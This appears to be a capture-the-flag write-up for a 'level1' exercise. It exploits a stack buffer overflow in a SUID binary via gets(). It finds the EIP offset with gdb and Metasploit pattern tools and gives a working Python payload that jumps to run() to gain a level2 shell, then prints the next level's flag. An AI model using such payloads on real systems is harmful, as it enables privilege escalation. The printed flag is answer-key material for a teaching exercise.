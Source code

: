 - We have a 32 bit ELF binary called level1 with SUID bit set, let's decompile de code:

```bash
int32_t run()
{
	fwrite(buf: "Good... Wait what?\n", size: 1, count: 0x13, fp: stdout)
	return system(line: "/bin/sh")
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void buf
    return gets(&buf)
}
```

- The main function gets input user without any limits. We could write data until the EIP register who is responsible for pointing to the next instruction. But what if we set the next instruction as the address of the run() function that spawn a shell ?
- Lets try to find the address of run() and the offset until EIP.

```bash
- Address:
> objdump -D level1 | grep -n3 run
8048442:	c3                   	ret    
8048443:	90                   	nop

08048444 <run>:
8048444:	55                   	push   %ebp
8048445:	89 e5                	mov    %esp,%ebp
8048447:	83 ec 18             	sub    $0x18,%esp

The address of run() is 0x08048444.



- Offset until EIP (gdb peda & msf_pattern):
> cd /opt/metasploit-framework/embedded/framework/tools/exploit/
> pattern_create.rb -l 100 (Create a 100 characters "random" string)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

> gdb ./level1
> b main
> b gets
> run
-> continue until gets()
> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Here we get a Segfault, it means we tried to write on some memory we can't write. We can see with gdb that EIP has beem wrote by some of the character we created. We can use the next msf tool to know exactly the offset until EIP.
> ./pattern_offset.rb -q c5Ac
[*] Exact match at offset 76

So after writing 76 characters on the stack, the next ones will be written on EIP, let's just write the address of run() (In little endian)

> python -c 'print "A"*76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)

- We see that the run() function has been executed but no shell spawned, that's because pipe does not support interactive shell we need to use a little trick to bypass this problem.

> (python -c 'print "A"*76 + "\x44\x84\x04\x08"' ; cat) | ./level1
Good... Wait what?
> whoami
level2
> cat ../level2
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```